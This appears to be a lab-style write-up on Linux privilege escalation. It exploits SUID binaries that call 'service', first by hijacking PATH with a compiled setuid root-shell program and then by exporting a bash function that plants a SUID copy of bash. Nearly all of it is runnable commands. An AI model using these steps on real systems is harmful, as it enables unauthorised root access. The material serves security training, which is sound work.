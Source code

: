 ### SUID Environmental Variables

If you type in `env` you will get a list out of a good number of items.

`find / -type f -perm -04000 -ls 2> /dev/null`  - This is getting repetitive.  ;)

On this machine in the search, for this vuln, we're looking for these two paths

`/usr/local/bin/suid-env` and `/usr/local/bin/suid-env2`

Try to run those two and it looks like they start apache web server.

You can use `strings` to try and pull some info from these.

`strings /usr/local/bin/suid-env` or `strings /usr/local/bin/suid-env2`

If you print that out, you'll see that the last line, on this example, is `service apache2 start`. It's calling `service` in order to start that command.  But without the full path (`/usr/bin/service`) how does it know where to run `service` from?

Environmental Variables.  And we can (sometimes) take advantage of this.  We can add an environmental path and make a malicious `service` command that gives us a root shell.

Make our malicious `service`

`int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}`

You can use `echo` to echo that into a file, i.e. `/tmp/service.c`

Then compile it

`gcc /tmp/service.c -o /tmp/service`

Here's where we change the $PATH

`export PATH=/tmp:$PATH`

Once all that is done, rerun the suid-env and that should give you root.


Now for suid-env2.  If we run strings on that we get the call to the full path name, so our earlier trick won't work.  But we can still get around it.

We make a function.

`function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`   
`export -f /usr/sbin/service`

Then if we run the suid-env2, it will give us a root shell.
